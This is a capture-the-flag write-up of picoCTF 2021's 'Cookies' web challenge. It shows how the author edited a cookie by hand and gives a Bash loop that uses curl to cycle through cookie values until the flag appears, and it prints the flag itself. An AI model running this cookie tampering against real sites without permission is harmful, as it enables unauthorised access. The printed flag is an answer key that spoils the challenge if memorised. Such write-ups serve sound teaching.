




# :briefcase: Cookies

- **Difficultly**: `Easy`
- **Category**: `Web Exploitation`
- **Platform**: `picoCTF 2021`
- **Tag**: `None`
- **Author**: `madStacks`
- **Date**: `11/06/2025`

---

# :pencil: Description

Who doesn't love cookies? Try to figure out the best one. [link](https://play.picoctf.org/practice/challenge/173)

---

# :unlock: Solution

1. Access the link

    [image1](images/image1.png)

2. Entered `snickerdoodle` into the input field and clicked the `Search` button`>` A message was displayed on the page

    

3. Checked the cookie `>` We have a cookie named `name` with the value `0`

    

4. Changed the cookie value to `1` and reloaded the page `>` A new message appeared

    

5. So the flag might be revealed at a certain value, therefore we can write a Bash script to automate the process.

    ```sh
    #!/bin/bash

    for i in {0..24}
    do
        cookie="name=$i"
        response=$(curl -s -H "Cookie: $cookie" "http://mercury.picoctf.net:21485/check")

        if echo "$response" | grep -q "picoCTF"; then
            echo "$response" | grep -i "picoCTF"
        fi
    done
    ```

6. We found it

    

---

# :white_flag: Flag

> picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}

---

# :writing_hand: Notes

`None`

---

# :books: Resources

- [Bash Reference Manual](https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html)
- [Requests: HTTP for Humans™ — Requests 2.32.4 documentation](https://requests.readthedocs.io/en/latest/)

---

# :hammer_and_wrench: Tools used

`Bash` script

